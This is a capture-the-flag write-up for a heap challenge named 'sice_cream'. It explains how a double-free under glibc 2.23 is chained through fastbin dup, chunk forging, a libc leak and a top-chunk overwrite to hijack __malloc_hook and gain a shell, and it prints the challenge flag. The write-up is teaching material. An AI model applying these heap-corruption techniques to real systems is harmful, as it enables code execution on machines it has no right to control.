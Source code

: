 # sice_cream - 500 points

## Flag

```
flag{th3_r3al_questi0n_is_why_1s_libc_2.23_still_4_th1ng_62167e9e}
```

## Analysis

```bash
$ strings libc.so.6 | grep GNU
GNU C Library (Ubuntu GLIBC 2.23-0ubuntu11) stable release version 2.23, by Roland McGrath et al.
Compiled by GNU CC version 5.4.0 20160609.
        GNU Libidn by Simon Josefsson

$ checksec sice_cream
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  './'

```

The libc version is 2.23, meaning that tcache has not been implemented yet. We could also try House of Orange because of less strict checks. Only PIE is disabled, meaning that we will probably have to go for either FSOP or an overwrite on `__malloc_hook` or `__free_hook`. 

Decompiling the binary with Ghidra, there are no checks on the pointer that we free, leading to a double free vulnerability. We also have the ability to print an array in .bss, `name`. Finally, we get a total of 20 mallocs, with a constrained size `(size < 0x58)`.  

## Solution

### Fastbin Dup
We can use [fastbin_dup_into_stack](https://github.com/shellphish/how2heap/blob/master/glibc_2.25/fastbin_dup_into_stack.c) to get a fake chunk in `name`. Note that we have to forge a chunk header initially. 

```
  [ 0xdeadbeef  ] [    0x61    ]
  [ 0x00 (fd)   ] [    ...     ]
                ...               
```
_Fake fastbin chunk_

Note how we set the `fd` pointer of our fake chunk to NULL to make the fastbins a bit cleaner, but this step is probably not necessary. 

### Chunk Forging
After getting a fake chunk, we can edit the `name` array to change our fastbin chunk to an unsorted bin chunk (size > 0x80). The easiest way to fake a chunk is to satisfy the following conditions. 

1. The `prev_in_use` bit of the current chunk is set
2. The `prev_in_use` bit of the next chunk is set
3. THe `prev_in_use` bit of the next next chunk is set

```
0x00  [ 0xdeadbeef  ] [    0x91    ]
      [             ...            ]
      [             ...            ]
      [             ...            ]
0x90  [     ...     ] [    0x11    ]
0xa0  [     ...     ] [    0x11    ]
                    ...               
``` 
*Fake unsorted bin chunk*

Note that the chunk sizes for the next chunk and next next chunk don't have to be valid (chunks of sizes < 0x20 are invalid for 64 bit systems). 

### Libc leak
After freeing the fake chunk, two libc addresses are written to `name`. More specifically, pointers to the unsorted bin are written here. 
```
0x00  [ 0xdeadbeef  ] [    0x91    ]
0x10  [  libc addr  ] [  libc addr ]
      [             ...            ]
      [             ...            ]
0x90  [     ...     ] [    0x11    ]
0xa0  [     ...     ] [    0x11    ]
                    ...               
``` 
*Libc address leak*

We can leak the libc base now by overwriting the first 0x10 bytes of our fake chunk and printing. From here on out, we won't be able to malloc any chunks that are not already in the fastbins (or at least it'll be significantly messier to) because we messed with the unsorted bin. 

### Top Chunk Exploit
The intuition here is to overwrite the top chunk pointer in malloc_state. 
```
struct malloc_state
{
  /* Serialize access.  */
  mutex_t mutex;

  /* Flags (formerly in max_fast).  */
  int flags;

  /* Fastbins */
  mfastbinptr fastbinsY[NFASTBINS];

  /* Base of the topmost chunk -- not otherwise kept in a bin */
  mchunkptr top;

  /* The remainder from the most recent split of a small request */
  mchunkptr last_remainder;   

  /* Normal bins packed as described above */
  mchunkptr bins[NBINS * 2 - 2];

  /* Bitmap of bins */
  unsigned int binmap[BINMAPSIZE];

  /* Linked list */
  struct malloc_state *next;

  /* Linked list for free arenas.  Access to this field is serialized
     by free_list_lock in arena.c.  */
  struct malloc_state *next_free;

  /* Number of threads attached to this arena.  0 if the arena is on
     the free list.  Access to this field is serialized by
     free_list_lock in arena.c.  */
  INTERNAL_SIZE_T attached_threads;

  /* Memory allocated from the system in this arena.  */
  INTERNAL_SIZE_T system_mem;
  INTERNAL_SIZE_T max_system_mem;
};
```

Problematically, there are no valid fastbin chunk headers in libc. The constrained malloc size means we can't forge a chunk of size 0x70 to use the 0x7f addresses typically associated with libc addresses. I guess we'll just have to make our own header then. 

Note that we can control the `fastbinsY` array by doing the fastbin dup exploit. More specifically, we can write any address we want to the corresponding fastbin because we control the `fd` pointer of fastbins. 

```
A2 = alloc(0x48)
B2 = alloc(0x48)

free(A2)
free(B2)
free(A2)

alloc(0x48, payload=p64(address))
alloc(0x48)
alloc(0x48)

# Fastbin for 0x48 (0x50) chunks = address
```
*Slightly modified version of relevant parts of solve.py*

With this, we can write a valid fastbin chunk header into the `malloc_state`, allowing us to overwrite the top chunk pointer. Pointing the top chunk behind `__malloc_hook` allows us to overwrite `__malloc_hook`. 

Small problem: we won't be able to malloc from the top chunk until the unsorted bin is fixed first. To do this, we can forge a chunk with proper unsorted bin addresses so malloc will ignore the unsorted bin chunk. 
```
0x00  [ 0xdeadbeef  ] [    0x21    ]
0x10  [  libc addr  ] [  libc addr ]
      [             ...            ]   
``` 

Activating the malloc hook with the `0xf02a4` one_gadget and a `malloc_printerr` results in a shell.